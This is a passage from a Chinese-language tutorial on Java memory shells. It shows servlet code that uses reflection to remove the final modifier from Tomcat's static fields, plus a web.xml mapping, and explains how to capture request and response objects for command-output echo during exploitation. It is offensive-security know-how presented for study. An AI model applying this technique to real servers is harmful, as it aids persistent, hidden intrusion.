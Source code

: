 ```bash

        } catch (Exception e){
            e.printStackTrace();
        }
    }


    @Override
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        super.doPost(req, resp);
    }
    public void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
        field.setAccessible(true);
        Field modifiersField = Field.class.getDeclaredField("modifiers");
        modifiersField.setAccessible(true);
        modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
    }
}
```

这里的`WRAP_SAME_OBJECT`、`lastServicedRequest`、`lastServicedResponse`都是 static final 类型的，所以反射获取变量时，需要先进行如下操作：[反射修改 static final 静态变量值](https://blog.csdn.net/qq_37687594/article/details/121317703)

```bash
public void setFinalStatic(Field field) throws NoSuchFieldException, IllegalAccessException {
    field.setAccessible(true);
    Field modifiersField = Field.class.getDeclaredField("modifiers");
    modifiersField.setAccessible(true);
    modifiersField.setInt(field, field.getModifiers() & ~Modifier.FINAL);
}
```

**web.xml**

```bash
<servlet>
    <servlet-name>getRequest</servlet-name>
    <servlet-class>memoryshell.UnserShell.getRequest</servlet-class>
</servlet>

<servlet-mapping>
    <servlet-name>getRequest</servlet-name>
    <url-pattern>/demo</url-pattern>
</servlet-mapping>
```

第一次访问/demo 路径，将 request 和 response 存储到 lastServicedRequest 和 lastServicedResponse 中

第二次访问成功将 lastServicedResponse 取出，从而达到回显目的

[![](assets/1708095347-7c5df93053082e8e41f999a52514ea6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230428210722-9d29b05c-e5c5-1.png)
